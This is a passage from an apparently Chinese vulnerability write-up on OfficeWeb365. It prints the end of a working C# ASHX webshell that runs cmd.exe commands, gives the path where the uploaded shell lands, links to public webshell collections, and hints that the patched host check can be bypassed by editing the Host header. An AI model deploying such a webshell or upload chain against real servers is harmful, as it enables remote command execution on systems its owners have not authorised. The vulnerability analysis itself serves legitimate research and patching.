 ```
    ctx.Response.Write("<pre>");

    /* command execution and output retrieval */
    ProcessStartInfo psi = new ProcessStartInfo();
    psi.FileName = "cmd.exe";
    psi.Arguments = "/c "+command;
    psi.RedirectStandardOutput = true;
    psi.UseShellExecute = false;
    Process p = Process.Start(psi);
    StreamReader stmrdr = p.StandardOutput;
    string s = stmrdr.ReadToEnd();
    stmrdr.Close();

    ctx.Response.Write(System.Web.HttpUtility.HtmlEncode(s));
    ctx.Response.Write("</pre>");
    ctx.Response.Write("<hr>");
    ctx.Response.Write("By <a href='http://www.twitter.com/Hypn'>@Hypn</a>, for educational purposes only.");
 }
}
///---
```
最后文件保存在`/Content/img/UserDraw/drawPWtest.ashx`
![](https://img-blog.csdnimg.cn/direct/2275f9eb51c34ba28781c255e1839cc7.png)

网上找个ashx马即可：
[https://github.com/yangbaopeng/ashx_webshell/blob/master/shell.ashx](https://github.com/yangbaopeng/ashx_webshell/blob/master/shell.ashx)
[https://www.t00ls.com/articles-29937.html](https://www.t00ls.com/articles-29937.html)
#### 漏洞修复
下载 8.6.1 增量包
![](https://img-blog.csdnimg.cn/direct/7b7b159146f44248b40e10dc98138902.png)

做了如下修复：
1. idx设置为int型
2. 限制了访问的host，这个直接更改host头即可
3. 不能包含目录穿越的字符
![](https://img-blog.csdnimg.cn/direct/84f62a32a01d4e5a871fa88fb9f0fbee.png)

如上所示

## 总结
其实网上还有个furl文件解压的漏洞，但是从Web.config中看到使用了`<denyUrlSequences>`，导致我们无法访问到路径`/cache/office/`
![](https://img-blog.csdnimg.cn/direct/e13cd1d5eda748608c744ffb4322c772.png)

所以说，即使上传成功也访问不到

鉴权方面则是使用`[Authorize(Users = "OfficeWeb365Config")]`![](https://img-blog.csdnimg.cn/direct/e8333432f127452988f79e42cbe02e4a.png)

没什么好的绕过思路

**2024.1.29更新**
哎，挖的小洞又没了
![](https://img-blog.csdnimg.cn/direct/fa1d99b008434c918a25481e6992bee9.png)

哭哭，长记性了，以后还是不要在公网测试poc